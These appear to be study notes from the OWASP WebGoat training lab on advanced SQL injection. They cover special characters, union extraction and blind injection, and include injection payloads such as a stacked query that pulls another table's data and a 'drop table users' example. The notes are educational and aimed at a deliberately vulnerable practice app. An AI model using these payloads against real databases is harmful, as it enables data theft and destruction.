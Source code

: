 # SQL Injection (advanced)
Special Characters
```
/* */ 	 are inline comments
-- , # 	 are line comments

Example: Select * from users where name = 'admin' --and pass = 'pass'
```

```
;        allows query chaining

Example: Select * from users; drop table users;
```

```
',+,||	 allows string concatenation
Char()	 strings without quotes

Example: Select * from users where name = '+char(27) or 1=1
```

Special Statements
- Unions	allows overlapping of database tables 'Select id, text from news union all select name, pass from users'
- Joins allows connecting to other tables

## Pulling Data From Other Tables
Code used:
```
Dave' ; select * from user_system_data; --
```

Dave's password:
```
passW0rD
```

![alt text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/3%20pulling%20data%20from%20other%20tables.PNG?token=ANjmpjtrBwt5Xner3U9Ab5iw9YyQ3HF-ks5buFlnwA%3D%3D)

## Blind SQL Injection
- Asks the database true or false questions
- Determines the answer based on the applications response
- Often used when the web application is configured to show generic error messages
- BUT has not mitigated the code that is vulnerable to SQL injection.

### Difference
- Normal SQL Injection:
  - error messages from the database are displayed
  - gives enough information to find out how the query is working
- Blind SQL Injection
  - application does not reflect the information directly on the webpage
